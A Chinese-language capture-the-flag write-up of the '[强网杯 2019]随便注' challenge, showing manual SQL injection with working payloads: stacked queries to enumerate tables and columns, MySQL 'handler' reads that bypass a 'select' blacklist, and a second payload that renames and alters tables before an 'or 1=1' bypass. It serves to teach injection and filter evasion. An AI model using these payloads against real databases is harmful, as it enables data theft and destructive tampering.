

# [强网杯 2019]随便注

## 题目来源

[强网杯 2019]随便注

## 题目方向 + 知识点

报错型 SQL 注入、关键字黑名单绕过分析、堆叠查询、`show tables`/`show columns` 枚举、`handler` 读表。

## 解题思路

我先打开首页，页面非常简单，只有一个 GET 参数输入框，参数名叫 `inject`，标题是 `easy_sql`，源码注释里还专门写了一句：

```html
<!-- sqlmap是没有灵魂的 -->
```

这基本就在暗示这题是手工 SQL 注入题，所以我第一步直接对 `inject` 做最基础的探测。

访问：

```text
?inject=1
```

页面回显：

```text
array(2) {
  [0]=> string(1) "1"
  [1]=> string(7) "hahahah"
}
```

这个回显很像把数据库查询结果直接 `fetch_row()` 后又 `var_dump()` 出来了，说明传入的 `inject=1` 可能对应查到了某一行记录。

接着我访问：

```text
?inject=1'
```

页面立即报 SQL 语法错误：

```text
error 1064 : You have an error in your SQL syntax ...
```

这一步说明注入点成立，而且是一个单引号闭合的字符串型 SQL 注入。

正常来说，下一步我会直接走 `union select` 或报错注入，但这题很快暴露出了一个黑名单。比如我尝试包含 `select` 的 payload 时，页面不再走 SQL，而是直接打印出一行代码：



这意味着后端对输入做了一个非常粗糙的黑名单过滤，直接拦截了：

- `select`
- `update`
- `delete`
- `drop`
- `insert`
- `where`
- `.`

这说明源码里除了 `preg_match` 黑名单外，后面还有一个 `strstr()` 相关检查，但这些都还不是最关键的点。真正的突破口在于：虽然它拦了很多危险关键字，可它**没有禁用分号堆叠语句**。

我尝试这样访问：

```text
?inject=1';show tables#
```

结果页面除了原本那条 `id=1` 的记录，还额外回显了两条表名：

```text
1919810931114514
words
```

这一步非常关键。说明虽然 `select` 被黑名单拦了，但 `show tables` 不在黑名单里，而且数据库驱动允许同一次请求执行多条 SQL 语句，也就是支持堆叠查询。

接下来我先看普通表 `words`：

```text
?inject=1';show columns from words#
```

页面回显字段：

```text
id
data
```

再看建表语句：

```text
?inject=1';show  create table words#
```

发现这个表只是：

```sql
CREATE TABLE `words` (
  `id` int(10) NOT NULL,
  `data` varchar(20) NOT NULL
)
```

这个表里 `id=1` 对应的 `data=hahahah`，就是首页一开始看到的那条正常记录。显然真正的 flag 不在这里。

于是我把注意力转向那个更可疑的数字表名 `1919810931114514`。我继续查询它的字段：

```text
?inject=1';show columns from `1919810931114514`#
```

页面回显：

```text
flag
```

这时候题基本已经结束一半了，因为这个表只有一个字段，名字就叫 `flag`。为了再确认一次，我又看了它的建表语句：

```text
?inject=1';show create table `1919810931114514`#
```

结果显示：

```sql
CREATE TABLE `1919810931114514` (
  `flag` varchar(100) NOT NULL
)
```

最后一步就是把表里的内容读出来。由于黑名单拦了 `select`，我不能直接 `select flag from ...`，但 MySQL 还有一个很好用的语法：`handler`。`handler` 不在黑名单里，而且可以直接对表做打开和读取操作。

于是我构造：

```text
?inject=1';handler `1919810931114514` open;handler `1919810931114514` read first#
```

页面成功回显：

```text
CTF2{4d81d551-31fe-412c-9f1c-51ea7f5231c1}
```

payload 2 

前面显示没有禁用alter rename

然后我们通过查看words表 和它的建表语句 我们猜测他默认查询的就是words表 查询语句应该是

select id,data from words where id='$inject'

所以我们用堆叠注入尝试改名 然后正常读flag

1';rename tables `words` to `words1`;rename tables `1919810931114514` to `words`; alter table `words` change `flag` `id` varchar(100);#

然后万能密码绕过1' or 1=1#

## Flag

`CTF2{4d81d551-31fe-412c-9f1c-51ea7f5231c1}`

